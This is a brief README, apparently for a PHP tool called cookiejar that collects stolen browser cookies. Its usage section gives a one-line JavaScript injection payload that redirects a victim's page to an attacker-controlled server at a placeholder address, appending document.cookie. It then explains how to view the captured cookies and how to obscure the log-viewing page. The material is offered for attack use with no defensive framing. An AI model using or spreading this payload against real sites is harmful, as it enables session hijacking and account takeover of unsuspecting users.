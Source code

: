 # cookiejar

## Usage
`document.location='http://YOURSERVER/php-cookiejar/log.php?c=' + document.cookie;`

## Viewing Logs
Visit `http://YOURSERVER/php-cookiejar/view.php?logs` to see the logs.  
Going to `view.php` without the trailing `?logs` will show something different.  
Changing the variable to something different in `view.php`, line 2 would be recommended.

## To Do
* Allow different layouts for logs
* Use database for logging instead of HTML file
* Admin panel to manage DB
